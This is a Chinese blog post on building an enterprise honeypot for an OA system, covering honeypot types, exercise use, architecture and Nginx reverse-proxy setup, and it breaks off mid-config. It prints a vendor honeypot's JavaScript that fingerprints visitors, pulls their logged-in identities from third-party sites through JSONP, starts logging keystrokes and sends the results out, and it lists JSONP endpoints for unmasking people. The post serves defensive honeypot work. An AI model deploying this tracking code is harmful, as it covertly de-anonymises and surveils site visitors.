

## 企业蜜罐建设实践

- - -

### [背景介绍](#toc_)

今年10月份接到领导临时安排的一个任务，要求部署一套可以置于互联网上的蜜罐环境，并且要求实现对本公司最新协同办公系统在野利用0day的捕获，同时也需要实现对在野利用Nday的态势感知和各类可疑攻击行为的捕获，之后通过对攻击行为分析确定协同办公系统存在的脆弱点并进行修复，从而全面提升协同办公系统的安全性

### [蜜罐介绍](#toc__1)

蜜罐(Honeypot)是一个专门为攻击者量身定制且包含大量漏洞的系统，其目的是通过部署一套酷似真实的系统来诱导攻击者实施攻击，之后通过各类安全设备或者攻击者入侵所留下的日志记录分析还原出攻击者的整个攻击路径和攻击目标系统所使用的攻击载荷，而在此过程中蜜罐发挥了两个重要的作用，其一是诱导攻击者攻击了一个"非真实"且"非正式"的系统，耗费了攻击者大量的时间和经历，减少了对实际系统的威胁，其二是收集了攻击者入侵时采用的入侵途径和入侵载荷，这将有助于安全人员通过入侵分析反向定位溯源到攻击者，从而采取下一步措施(例如:走法律程序)

### [蜜罐分类](#toc__2)

根据蜜罐提供的可交互程度可以将蜜罐分为以下三种： \* 低交互式蜜罐：此类蜜罐一般只会开放一些简单的服务和端口(例如:3306)，其目的主要是用来检测攻击者的恶意扫描和可疑连接，但是不会有交互 \* 中交互式蜜罐：此类蜜罐一般会提供众多的服务，同时还会通过提供一些简易的交互功能(例如:MySql简易交互)来提高自身的可信度，从而诱导攻击者对其实施攻击操作 \* 高交互式蜜罐：此类蜜罐一般会提供一个更加真实的环境，更有甚者会提供一套真实的系统来诱导攻击者对其实施攻击操作，但是这种蜜罐的部署需要注意网络的隔离处理

### [蜜罐使用](#toc__3)

#### [HW行动](#toc_hw)

蜜罐在HW期间尤为常见，在此阶段的蜜罐大多数都是蓝队为了捕获红队在信息收集和外网打点期间的可疑攻击行为，之后进行反向溯源攻击者去拿分数，其采用的主要技术JSONP探针，原理主要是利用攻击者在实施攻击时使用未清理Cookie的常用浏览器直接访问蜜罐系统而被蜜罐系统捕获攻击者的个人信息(各类网站的登录接口)，之后通过分析溯源到攻击者，下面是绿盟科技蜜罐产品的部分实现代码：

```plain
<script>"use strict";

function ajax(params) {
  params = params || {};
  params.data = params.data || {};
  var json = params.jsonp ? jsonp(params) : json(params);

  function jsonp(params) {
    var callbackName = params.jsonp;
    var head = document.getElementsByTagName('head')[0];
    params.data['callback'] = callbackName;
    var data = formatParams(params.data);
    var script = document.createElement('script');
    head.appendChild(script);

    window[callbackName] = function (json) {
      head.removeChild(script);
      clearTimeout(script.timer);
      window[callbackName] = null;
      params.success && params.success(json);
    };

    script.src = params.url + '?' + data;

    if (params.time) {
      script.timer = setTimeout(function () {
        window[callbackName] = null;
        head.removeChild(script);
        params.error && params.error({
          message: 'long time'
        });
      }, time);
    }
  }

  function formatParams(data) {
    var arr = [];

    for (var name in data) {
      arr.push(encodeURIComponent(name) + '=' + encodeURIComponent(data[name]));
    } // arr.push('v=' + random());


    return arr.join('&');
  }

  function random() {
    return Math.floor(Math.random() * 10000 + 500);
  }
}

function BrowserType(url) {
  var ua = navigator.userAgent.toLowerCase();

  var testUa = function testUa(regexp) {
    return regexp.test(ua);
  };

  var testVs = function testVs(regexp) {
    return ua.match(regexp).toString().replace(/[^0-9|_.]/g, "").replace(/_/g, ".");
  };

  var system = "unknow";

  if (testUa(/windows|win32|win64|wow32|wow64/g)) {
    system = "windows";
  } else if (testUa(/macintosh|macintel/g)) {
    system = "macos";
  } else if (testUa(/x11/g)) {
    system = "linux";
  } else if (testUa(/android|adr/g)) {
    system = "android";
  } else if (testUa(/ios|iphone|ipad|ipod|iwatch/g)) {
    system = "ios";
  }

  var systemVs = "unknow";

  if (system === "windows") {
    if (testUa(/windows nt 5.0|windows 2000/g)) {
      systemVs = "2000";
    } else if (testUa(/windows nt 5.1|windows xp/g)) {
      systemVs = "xp";
    } else if (testUa(/windows nt 5.2|windows 2003/g)) {
      systemVs = "2003";
    } else if (testUa(/windows nt 6.0|windows vista/g)) {
      systemVs = "vista";
    } else if (testUa(/windows nt 6.1|windows 7/g)) {
      systemVs = "7";
    } else if (testUa(/windows nt 6.2|windows 8/g)) {
      systemVs = "8";
    } else if (testUa(/windows nt 6.3|windows 8.1/g)) {
      systemVs = "8.1";
    } else if (testUa(/windows nt 10.0|windows 10/g)) {
      systemVs = "10";
    }
  } else if (system === "macos") {
    //systemVs = testVs(/os x [\d._]+/g)
  } else if (system === "android") {
    //systemVs = testVs(/android [\d._]+/g)
  } else if (system === "ios") {
    //systemVs = testVs(/os [\d._]+/g)
  }

  var platform = "unknow";

  if (system === "windows" || system === "macos" || system === "linux") {
    platform = "desktop";
  } else if (system === "android" || system === "ios" || testUa(/mobile/g)) {
    platform = "mobile";
  }

  var engine = "unknow";
  var supporter = "unknow";

  if (testUa(/applewebkit/g)) {
    engine = "webkit";

    if (testUa(/edge/g)) {
      supporter = "edge";
    } else if (testUa(/opr/g)) {
      supporter = "opera";
    } else if (testUa(/chrome/g)) {
      supporter = "chrome";
    } else if (testUa(/safari/g)) {
      supporter = "safari";
    }
  } else if (testUa(/gecko/g) && testUa(/firefox/g)) {
    engine = "gecko";
    supporter = "firefox";
  } else if (testUa(/presto/g)) {
    engine = "presto";
    supporter = "opera";
  } else if (testUa(/trident|compatible|msie/g)) {
    engine = "trident";
    supporter = "iexplore";
  }

  var engineVs = "unknow";

  if (engine === "webkit") {
    engineVs = testVs(/applewebkit\/[\d._]+/g);
  } else if (engine === "gecko") {
    engineVs = testVs(/gecko\/[\d._]+/g);
  } else if (engine === "presto") {
    engineVs = testVs(/presto\/[\d._]+/g);
  } else if (engine === "trident") {
    engineVs = testVs(/trident\/[\d._]+/g);
  }

  var supporterVs = "unknow";

  if (supporter === "chrome") {
    supporterVs = testVs(/chrome\/[\d._]+/g);
  } else if (supporter === "safari") {
    supporterVs = testVs(/version\/[\d._]+/g);
  } else if (supporter === "firefox") {
    supporterVs = testVs(/firefox\/[\d._]+/g);
  } else if (supporter === "opera") {
    supporterVs = testVs(/opr\/[\d._]+/g);
  } else if (supporter === "iexplore") {
    supporterVs = testVs(/(msie [\d._]+)|(rv:[\d._]+)/g);
  } else if (supporter === "edge") {
    supporterVs = testVs(/edge\/[\d._]+/g);
  }

  var shell = "none";
  var shellVs = "unknow";

  if (testUa(/micromessenger/g)) {
    shell = "wechat";
    shellVs = testVs(/micromessenger\/[\d._]+/g);
  } else if (testUa(/qqbrowser/g)) {
    shell = "qq";
    shellVs = testVs(/qqbrowser\/[\d._]+/g);
  } else if (testUa(/ucbrowser/g)) {
    shell = "uc";
    shellVs = testVs(/ucbrowser\/[\d._]+/g);
  } else if (testUa(/qihu 360se/g)) {
    shell = "360";
  } else if (testUa(/2345explorer/g)) {
    shell = "2345";
    shellVs = testVs(/2345explorer\/[\d._]+/g);
  } else if (testUa(/metasr/g)) {
    shell = "sougou";
  } else if (testUa(/lbbrowser/g)) {
    shell = "liebao";
  } else if (testUa(/maxthon/g)) {
    shell = "maxthon";
    shellVs = testVs(/maxthon\/[\d._]+/g);
  }

  var languages = navigator.languages || navigator.language || navigator.userLanguage;
  var CPUInfo = navigator.platform;
  var CPUNumber = navigator.hardwareConcurrency;
  var canvas = document.createElement("canvas");
  var gl = canvas.getContext("experimental-webgl");
  var debugInfo = gl.getExtension("WEBGL_debug_renderer_info");
  var VideoCardSuppliers = gl.getParameter(debugInfo.UNMASKED_VENDOR_WEBGL);
  var GraphicsCardRenderer = gl.getParameter(debugInfo.UNMASKED_RENDERER_WEBGL);
  var ScreenWidth = window.screen.width;
  var ScreenHeight = window.screen.height;
  var ColorDepth = window.screen.colorDepth; // var NetType = navigator.connection.type;

  var res = Object.assign({
    engine: engine,
    engineVs: engineVs,
    platform: platform,
    supporter: supporter,
    supporterVs: supporterVs,
    system: system,
    systemVs: systemVs,
    languages: languages,
    CPUInfo: CPUInfo,
    CPUNumber: CPUNumber,
    VideoCardSuppliers: VideoCardSuppliers,
    GraphicsCardRenderer: GraphicsCardRenderer,
    ScreenWidth: ScreenWidth,
    ScreenHeight: ScreenHeight,
    ColorDepth: ColorDepth
  }, shell === "none" ? {} : {
    shell: shell,
    shellVs: shellVs
  });
  // var formData = new FormData();
  // formData.append('jInfo', window.btoa(unescape(encodeURIComponent(JSON.stringify(res))))); // bt

  fetch(url, {
    cache: "no-cache",
    method: "POST",
    body: window.btoa(unescape(encodeURIComponent(JSON.stringify(res))))
  });
}


ajax({
  url: 'https://www.taobao.com/help/getip.php',
  jsonp: 'ipCallback',
  data: {},
  success: function success(res) {
    localStorage.setItem('pub_ip', JSON.stringify(res));
  },
  error: function error(_error) {
    console.log(_error);
  }
});

ajax({
  url: 'https://tieba.baidu.com/tbmall/gettdouiconinfo',
  jsonp: 'jsonp1613919078534',
  data: {},
  success: function success(res) {
    localStorage.setItem('baidu', JSON.stringify(res));
  },
  error: function error(_error) {
    console.log(_error);
  }
});

ajax({
  url: 'https://www.qidian.com/ajax/UserInfoFemale/GetUserInfo',
  jsonp: 'autoLoginHandler',
  data: {'areaid': 6, 'appid': 10, 'format': 'jsonp', 'method': 'autoLoginHandler', 'autoLoginHandler': '', '_': '1607051376245'},
  success: function success(res) {
    localStorage.setItem('qidian', JSON.stringify(res));
  },
  error: function error(_error) {
    console.log(_error);
  }
});

ajax({
  url: 'https://www.yy.com/yyweb/user/queryUserInfo.json',
  jsonp: 'jsonp',
  data: {},
  success: function success(res) {
    localStorage.setItem('yy', JSON.stringify(res));
  },
  error: function error(_error) {
    console.log(_error);
  }
});

ajax({
  url: 'https://v2.sohu.com/api/pc-home-city/home-data/ip2location',
  jsonp: 'jQuery1124018281896477578718_1606458878259',
  data: {'_': '1606458878259'},
  success: function success(res) {
    localStorage.setItem('sohu_public_ip', JSON.stringify(res));
  },
  error: function error(_error) {
    console.log(_error);
  }
});


function send_data(types) {
  var data = {};
  data["public_ip"] = {};

  try {
    data["public_ip"]['taobao_public_ip'] = JSON.parse(localStorage.getItem('pub_ip'))['ip'];
  } catch (e) {
    data["public_ip"]['taobao_public_ip'] = "taobaoip获取接口可能已失效或者未设置，请尽快检查";
  } finally {}
  try {
        data["public_ip"]["sohu_public_ip"] = JSON.parse(localStorage.getItem('sohu_public_ip'))["data"]["ip"];
      } catch (e) {
        data["public_ip"]['sohu_public_ip'] = "sohu_ip获取接口可能已失效或者未设置，请尽快检查";
      } finally {}

  types.forEach(function (item) {
  if (item.endsWith("ip")){

  }else{
      data[item] = JSON.parse(localStorage.getItem(item));
    }
  });
  // var jp = new FormData();
  // jp.append("jInfo", window.btoa(unescape(encodeURIComponent(JSON.stringify(data)))));
  fetch('/other_data', {
    method: 'POST',
    cache: "no-cache",
    body: window.btoa(unescape(encodeURIComponent(JSON.stringify(data))))
  });
}

var logger = "";

var keyDown = function keyDown(e) {
  var e = e || event;
  var currKey = e.keyCode || e.which || e.charCode;
  var keyName = ""
  if (currKey > 7 && currKey < 32 || currKey > 31 && currKey < 47) {
    switch (currKey) {
      case 8:
        keyName = "[退格]";
        break;

      case 9:
        keyName = "[制表]";
        break;

      case 13:
        keyName = "[回车]";
        break;
      //case 16:keyName = "[shift]"; break;

      case 17:
        keyName = "[Ctrl]";
        break;

      case 18:
        keyName = "[Alt]";
        break;

      case 20:
        keyName = "[大小写]";
        break;

      case 32:
        keyName = "[空格]";
        break;

      case 33:
        keyName = "[PageUp]…</script>
```

常用于获取攻击者个人信息的JSONP接口：

```plain
http://burp/favicon.ico
https://openfpcdn.io/fingerprintjs/v3
https://verify.cmpassport.com/h5/httpsPreGetmobile
https://www.taobao.com/help/getip.php?callback=ipCallback
https://www.yy.com/yyweb/user/queryUserInfo.json?callback=jsonp
https://www.cmpassport.com/h5/onekeylogin/getNewUnicomPhonescrip
https://www.cmpassport.com/h5/onekeylogin/getNewTelecomPhonescrip
https://tieba.baidu.com/tbmall/gettdouiconinfo?callback=jsonp1613919078534
https://yuedu.baidu.com/nauser/getyduserinfo?na_uncheck=1&opid=wk_na&callback=bd
https://widget.weibo.com/public/aj_relationship.php?fuid=2991975565&callback=STK_16073033003861
https://v2.sohu.com/api/pc-home-city/home-data/ip2location?_=1606458878259&callback=jQuery1124018281896477578718_1606458878259
https://id6.me/auth/preauth.do?paramKey=10F72757C5A5A12B0A6DA61E62BDF3238163CC31B9CC3CC506CCD6BF67D3BC8CEEC92DAF1ED125BC4F681D118A2ED62D8CD18EE0629220BD69802469FAB4E1C62067CA310EDC5E1A2DCDCF0E8202AA852D611A0B78364344F15A866395C9AAF3C1061C9F6B1ACDCAB232960AC6F14D615ED5184184BDB125AC647A8422EC25D7&clientType=2&paramStr=39826A2D6BADA0327947D80463C1422C01D472F90ECC1B7FC72D262D1C7AC4FC201506C46971655C6C67C5714F232A532126204E40DD35C24C4264AC5D106D9EBEFEBB98157CB7230F5F8BF1788608CA3CF9F38998815804A4652BF20C1EB763525257296155BAF2B4B46836ED276DE6944344B4135D94555640885B4363C4AD&appId=8013416909&format=jsonp&sign=C733AA0C9B2F41175F94344CAF0AA227C2F2B199&version=1.5&
https://opencloud.wostore.cn/openapi/netauth/precheck/wp?timeStamp=1659325750804&packname=xxx&business_type=1&format=jsonp&sign=FCE6F4692C5FEDD8993FDEBD079EBF49&callback=getNewUnicomPhone&fp=&client_type=7&version=v4.5&client_id=99166000000000000228&key=c4ZMLe9%2F1iX9Do2h4FGMqy5vC0IzZ%2Fgj9LePAFU%2BwTSc%2BHUbB6W1arA9YDRqR7HjFok226YHwwJrLq06Da%2BBMBM%2FPV7%2FexfV3uV%2BbR0xzMz4Xy%2F1pKyIriuaXA%2BieaQeYtvjXs1gTYXWc%2F8vZb3TODk9cKywn9FOI7m3iqrJUko%3D&packsign=xxx&
https://www.qidian.com/ajax/UserInfoFemale/GetUserInfo?areaid=6&appid=10&format=jsonp&method=autoLoginHandler&autoLoginHandler=&_=1607051376245&callback=autoLoginHandler
https://www.qidian.com/ajax/UserInfoFemale/GetUserInfo?areaid=6&appid=10&format=jsonp&method=autoLoginHandler&autoLoginHandler=&_=1607051376245&callback=autoLoginHandler
```

在获取攻击者的数据信息(IP、ID、手机号码、用户名、邮箱地址)后可以溯源攻击者：  
[](https://storage.tttang.com/media/attachment/2022/11/15/da700222-95ad-4645-993b-b65f64b95292.png)

[](https://storage.tttang.com/media/attachment/2022/11/15/589cffbd-2fef-478b-b44b-5f59431c1119.png)

针对HW行动中蜜罐通过JSONP捕获攻击者个人信息的手法可以通过制定红队行动规范来规避，例如： \* 使用专门用于红蓝对抗的攻击机(虚拟机)来实施攻击操作 \* 用于红蓝对抗的攻击机(虚拟机)不能残留个人数据信息，包括系统用户名、系统文件、浏览器登录会话等 \* 在红蓝对抗中严格要求每一位红队成员使用IP代理池来实施攻击，杜绝使用真实IP地址(例如:公司公网IP地址)

由于HW期间的蜜罐主要通过JSONP技术来实现对攻击者个人数据的采集，所以我们也可以基于此原理通过在浏览器中安装反蜜罐插件来实现，下面是几个比较好用的插件，有兴趣的师傅可以试试看，当然最好的方式还是使用上面所述的红队行动规范来进行约束为好：

-   [https://github.com/jayus0821/Armor](https://github.com/jayus0821/Armor)
-   [https://github.com/cnrstar/anti-honeypot](https://github.com/cnrstar/anti-honeypot)
-   [https://github.com/iiiusky/AntiHoneypot-Chrome-simple](https://github.com/iiiusky/AntiHoneypot-Chrome-simple)  
    除此之外我们也可以再对目标进行信息收集的阶段就直接过滤掉蜜罐，FOFA之前在检索与目标关联的资产时开启蜜罐过滤功能，不多在最新的fofa.info中该功能模块好像被移除了，即便是添加"is\_honeypot=false"关键词也不行，但是我们可以通过证书特征、网站ICP备案来对目标资产进行筛选处理：

[](https://storage.tttang.com/media/attachment/2022/11/15/e29792a7-1235-4a0f-8b6b-f9185eaccdd1.png)

#### [漏洞感知](#toc__4)

在每年的HW行动中，各类CMS、OA系统、中间件等都是被经常"关照"的重点对象，而这些厂商即便是有最新的补丁推送，客户也不一定去官网去看，而且看了也不一定去下载或者去打补丁，从而造成的一种现象就是上一年的攻击目标依旧可以使用上一年的历史漏洞来攻破，甚至上一年的残留的webshell依旧还存在，而由此造成甲方产品名誉受损、客户成交量下降、客户满意度下滑、客户数据丢失等众多的问题  
针对以上问题，拥有自家业务产品的甲方企业(例如:泛微、致远、通达等)不妨发挥一下蜜罐的另一种作用——漏洞感知，说到这里很多人都会说"蜜罐本来就是有漏洞的系统，还感知什么呀，这不是白白浪费时间和资源吗?"，但是站在甲方的角度来看利用蜜罐来进行漏洞感知有以下好处： \* 重点推送：通过蜜罐的漏洞感知可以了解到某一个时间段区间，攻击者攻击蜜罐使用最多的漏洞是哪一种类型、哪一种方式，之后在HW和重保期间可以就重点客户进行重点推送攻击者攻击频率较高的漏洞的安全补丁 \* 应急响应：拥有自家业务产品的甲方大多数都有自己的响应团队来处理客户的各种安全单(入侵攻击、安全通报等)，此时蜜罐的漏洞感知可以给我们提供一种借鉴思路，即遇到类似的应急响应类安全单子时我们可以优先看是否存在哪些攻击者高频率使用的攻击漏洞，间接性的缩短排查的时间，当然如果是长期从事应急响应的工作人员，凭借其丰富的经验也可以快速定位问题所在

企业如果使用蜜罐做漏洞感知时需要注意以下几个问题：

-   蜜罐交互：企业搭建的蜜罐一般会选择高交互式蜜罐，即在外网搭建一套真实的系统
-   版本选择：蜜罐选择部署那一套系统版本也是一个值得商榷的问题，一般在漏洞感知阶段会部署用户量最多的版本
-   安全补丁：蜜罐部署的目的是做漏洞利用的感知，通过对攻击者入侵痕迹的分析来解读攻击者常用于攻击系统的漏洞是哪些
-   风险收敛：蜜罐部署的服务器理应关闭除蜜罐服务之外的所有服务和端口(可以留SSH用于运维)实现风险收敛，规避攻击者通过其他方式入侵的可能性
-   全量日志：攻击者入侵蜜罐所采用的攻击类型、攻击载荷等信息大多数都是通过日志分析而得到，如果我们采集的日志不充分、不足，那么蜜罐部署将属于无效部署
-   伪造程度：蜜罐的伪造程度决定了蜜罐是否有效部署，蜜罐的有效部署依赖于成功诱导攻击者来攻击，如果无法诱导或者被攻击者识破这是一个蜜罐系统，那么将前功尽弃
-   自我保护：蜜罐部署后需要与企业生产网络进行隔离，不能使攻击者将其作为攻击者攻击企业内部应用的跳板，一般选择一个独立且不连通其他网段的网段进行部署为宜

#### [0Day捕获](#toc_0day)

目前有很多的企业或个人都会尝试去部署各种各样的蜜罐产品，且大部分产品都是一些OA系统、CMS等常用的系统，目的大多都是为了捕获在野利用的通用型0day

企业在外网部署产品蜜罐实现对在野利用0day的捕获，由此产生的价值在于可以更快一步发现企业产品中存在的脆弱点并通过对在野利用0day的复现、漏洞利用载荷的分析来定位底层代码功能点位，之后通过对脆弱点进行修复，从而提升系统的整体安全性

个人在外网部署产品蜜罐的目的主要在于捕获在野利用的0day并对其进行复现，确认其真实性、可用性，之后在HW、重保等攻防阶段有针对性的对目标站点进行攻击拿分，而且现在像360、奇安信、长亭、深信服等安全公司的红队除了他们成员自己有挖掘相关产品的0day用于攻防演练外，其实还有他们的研究团队在后面做技术支持，比如：当你在HW阶段遇到某一个系统，但是你找寻了所有互联网上的历史漏洞的利用载荷都未打成功时，那么此时你可以选择将你的目标站点的URL发到后方支持团队，让拥有0day的实验室成员帮忙打，可能不到一会儿webshell的链接信息就来了，但是在这个过程中你并不能真正的接触到0day的利用载荷，当你遇到同样的系统，那么你就又"木"住了，又得找后方支持团队提供支持，有句话叫"授人以鱼不如授人以渔"，结合我们的攻防场景又可以诡异式的演变为"等待被授以渔不如主动找渔"：有一个小伙子在打攻防时找自己的领导说自己发现了一个OA系统，但是自己打完了互联网上的所有历史漏洞都没有效果，想要领导帮忙用0day打一下，领导先是一顿称赞，之后一个回车下去将漏洞利用的载荷成功打入了小伙子搭建的蜜罐中，之后领导将shell丢给了小伙子，让小伙子自己去打内网，但是没过多久，小伙子说目标打偏了，与此同时0day已然到手(当然不建议去走这种套路哈，确实有点损~)

企业或个人通过部署产品蜜罐来捕获0day时需要注意以下几个问题：

-   蜜罐交互：用于捕获0day的蜜罐建议使用一套真实的系统，使其具备高交互蜜罐的特性
-   版本选择：用于捕获0day的版本主要有两个大的选择方向，一个是选择当前产品最新版本，另一个是选择用户量最多且已打完所有历史补丁的安全版本
-   全量日志：要想捕获0day的完整攻击载荷就必须具备能够获取攻击者的全部请求数据(包括POST请求体)的能力
-   风险收敛：蜜罐部署的服务器理应关闭除蜜罐服务之外的所有服务和端口(可以留SSH用于运维)实现风险收敛，规避攻击者通过其他方式入侵的可能性
-   伪造程度：蜜罐的伪造程度决定了蜜罐是否有效部署，蜜罐的有效部署依赖于成功诱导攻击者来攻击，如果无法诱导或者被攻击者识破这是一个蜜罐系统，那么将前功尽弃

#### [入侵检测](#toc__5)

企业在安全建设上大多数都会更加侧重于边界安全的防护，然而攻击者一旦通过0day、社工钓鱼、近源攻击等攻击手法突破网络边界进入内网，那么企业对内网失陷造成的横向移动感知则会成为防护的盲区，而在内网部署蜜罐可以为此提供良好的帮助，一方面在内网部署蜜罐可以诱导攻击者陷入蜜网，远离核心业务(之前在打HW的时候有听到同事说起过有一家厂商曾在内网搭建了一套域环境，之后害的红队成员白白忙活)，另一方面可以对内网失陷主机的异常横向移动进行感知  
[](https://storage.tttang.com/media/attachment/2022/11/15/ad75d1fd-08f8-454d-ad1e-db381a4027c7.png)  
目前比较好用的一套开源免费的蜜罐系统应该归HFish莫属，它提供了众多的蜜罐服务，比如：MySQL蜜罐、Redis蜜罐、FTP蜜罐、SSH蜜罐等，用户可以选择性的部署，同时HFish还提供了攻击态势大屏用于可视化展示可疑的攻击行为，关于HFish的更多使用可以查看文末参考链接\[5\]  
[](https://storage.tttang.com/media/attachment/2022/11/15/319dd6b9-b81d-43d8-a9c5-a010d913be31.png)  
当然也可以自我构建蜜罐服务，下面是笔者之前本地在搭建MySQL蜜罐捕获攻击者个人信息的一个示例：  
[](https://storage.tttang.com/media/attachment/2022/11/15/ddb2002e-95f7-452d-9019-1c859243e25b.png)  
之后会获取到的个人信息进行base64解密获取到用户登录主机的用户名信息和WXID信息：  
[](https://storage.tttang.com/media/attachment/2022/11/15/f2650ba6-be26-43e8-9a0e-d1f27b75dbd4.png)

### [初始架构](#toc__6)

最初根据领导的要求(0day捕获、漏洞利用感知、可以入侵行为捕获)绘制了蜜罐的初始架构图，具体如下： \* OA系统1：部署最新的OA版本，主要用于捕获0day \* OA系统2：部署用户量最多的OA版本，未打历史补丁，主要用于漏洞利用感知 \* OA系统3：部署用户量最多的OA版本，一方面捕获0day，另一方面捕获可疑入侵行为(便于后期对捕获的可疑入侵痕迹向之前的OA版本进行推演是否影响) \* 控制端系统：通过创建一个定时任务来定期的拉取三台服务器端的日志，检查人员定期在控制端进行日志分析，并通过日志分析工具或者风险系统进行可视化展示  
[](https://storage.tttang.com/media/attachment/2022/11/15/18e7722e-4211-4cac-ac5e-9d8c8355da5f.png)

经过后期结合OA日志记录特性和架构的初步设计再次思考发现次架构存在一下不足： \* OA系统端日志记录不全，导致无法捕获到POST的请求记录 \* OA系统端开启全量日志记录后发现会影响整个系统的性能 \* 控制端需要定期去拉取三台服务器上的日志记录，同时需要回传到本地并进行日志分析，过程过于繁杂

### [架构优化](#toc__7)

由于0day捕获、漏洞利用感知、攻击者恶意入侵行为分析的基础在于获取到全量的攻击日志，所以获取完整的日志对于搭建此次蜜罐的目的而言至关重要，基于此目的出发对上述不成熟的架构优化如下： \* Nginx：提供外网IP地址与内网IP地址，通过反向代理对来自公网的域名请求进行分发处理，同时对针对不同域名的请求做全量记录 \* OA系统1：部署最新的OA版本，主要用于捕获0day \* OA系统2：部署用户量最多的OA版本，未打历史补丁，主要用于漏洞利用感知 \* OA系统3：部署用户量最多的OA版本，一方面捕获0day，另一方面捕获可疑入侵行为(便于后期对捕获的可疑入侵痕迹向之前的OA版本进行推演是否影响)

[](https://storage.tttang.com/media/attachment/2022/11/15/e65e9f7d-102e-414e-afff-824679d7a37d.png)

### [部署流程](#toc__8)

#### [操作系统](#toc__9)

当时公司部署环境采用的是云主机，且购买了相关的域名，本地演示时为了方便起见采用一下系统： \* CentOS：安装Nginx并进行反向代理配置 \* Windows 7 1：OA系统1 \* Windows 7 2：OA系统2 \* Windows 7 3：OA系统3

#### [环境构建](#toc__10)

##### [CentOS(Nginx)](#toc_centosnginx)

**A、安装部署Nginx**  
Step 1：安装依赖包

> yum -y install gcc gcc-c++ make libtool zlib zlib-devel openssl openssl-devel pcre pcre-devel

[](https://storage.tttang.com/media/attachment/2022/11/15/5fbbf5ff-36d5-4687-bde2-f759fed3270f.png)

Step 2：下载安装Nginx

> wget -c [https://nginx.org/download/nginx-1.18.0.tar.gz](https://nginx.org/download/nginx-1.18.0.tar.gz)  
> tar -zxf nginx-1.18.0.tar.gz  
> cd nginx-1.18.0

[](https://storage.tttang.com/media/attachment/2022/11/15/98281c6e-8346-4f66-9dd3-c43e3ca17d88.png)

Step 3：配置SSL(这里不需要SSL，有需要的可以试试)

> # [不需要SSL](#toc_ssl)
> 
> ./configure --prefix=/usr/local/nginx
> 
> # [需要SSL](#toc_ssl_1)
> 
> ./configure --prefix=/usr/local/nginx --with-http\_stub\_status\_module --with-http\_ssl\_module

[](https://storage.tttang.com/media/attachment/2022/11/15/9867ab43-0519-4aa9-93cb-c99c23635a0b.png)  
执行以上命令会会返回Nginx默认的配置文件路径如下：  
[](https://storage.tttang.com/media/attachment/2022/11/15/17f166ea-73a1-4de0-9207-77bb89acde16.png)

```plain
nginx path prefix: "/usr/local/nginx"
nginx binary file: "/usr/local/nginx/sbin/nginx"
nginx modules path: "/usr/local/nginx/modules"
nginx configuration prefix: "/usr/local/nginx/conf"
nginx configuration file: "/usr/local/nginx/conf/nginx.conf"
nginx pid file: "/usr/local/nginx/logs/nginx.pid"
nginx error log file: "/usr/local/nginx/logs/error.log"
nginx http access log file: "/usr/local/nginx/logs/access.log"
nginx http client request body temporary files: "client_body_temp"
nginx http proxy temporary files: "proxy_temp"
nginx http fastcgi temporary files: "fastcgi_temp"
nginx http uwsgi temporary files: "uwsgi_temp"
nginx http scgi temporary files: "scgi_temp"
```

Step 5：编译安装

> make  
> make install

[](https://storage.tttang.com/media/attachment/2022/11/15/4e6005b7-5c8d-4d54-912c-eef113d606d5.png)

[](https://storage.tttang.com/media/attachment/2022/11/15/150dd274-c621-4b8b-8288-5e9421c23be7.png)

Step 6：启动Nginx

> cd /usr/local/nginx/sbin  
> ./nginx

[](https://storage.tttang.com/media/attachment/2022/11/15/d66c354c-664a-4566-b1b2-2e8b25706782.png)

Step 7：进行访问测试

[](https://storage.tttang.com/media/attachment/2022/11/15/1d6f12b0-0248-48a9-81de-2e2fc3ed7646.png)

**B、负载均衡实现**

负载均衡其实就是将大量的请求按照我们指定的方式均衡的分配给集群中的每台服务器，规避将集群中大量请求只请求某一台服务器并使该服务器宕机的情况，在这里我们可以通过配置upstream将来自不同用户针对不同域名的请求分配给特定的后端服务(这里只是做了单一的处理，如果有资源可以增加配置项对请求进行分发处理，其实对于蜜罐来说也还好，不用负载均衡也是可以的)：

```plain
    upstream oa.aaa.com{
        server 192.168.17.206:80;
      }

    upstream oa.bbb.com{
        server 192.168.17.218:80;
    }

    upstream oa.ccc.com{
        server 192.168.17.219:80;
    }
```

**C、反向代理配置**  
使用Nginx反向代理，访问oa.aa.com直接跳转到192.168.17.206:80

```plain
    server {
        listen       80;
        server_name  oa.aaa.com;

        location / {
            proxy_pass http://192.168.17.206:80;
            proxy_set_header Host $host ;
            proxy_set_header X-Real-IP $remote_addr ;
            client_max_body_size   2048m;
            proxy_connect_timeout 300s;
            proxy_read_timeout 300s;
            proxy_send_timeout 300s;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        }
        error_page   500 502 503 504  /50x.html;
        location = /50x.html {
            root   html;
        }
    }
```

使用Nginx反向代理，访问oa.bbb.com直接跳转到192.168.17.218:80

```plain
    server {
        listen       80;
        server_name  oa.bbb.com;

        location / {
            proxy_pass http://192.168.17.218:80;
            proxy_set_header Host $host ;
            proxy_set_header X-Real-IP $remote_addr ;
            client_max_body_size   2048m;
            proxy_connect_timeout 300s;
            proxy_read_timeout 300s;
            proxy_send_timeout 300s;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        }
        error_page   500 502 503 504  /50x.html;
        location = /50x.html {
            root   html;
        }
    }
```

使用Nginx反向代理，访问oa.ccc.com直接跳转到192.168.17.219:80

```plain
    server {
        listen       80;
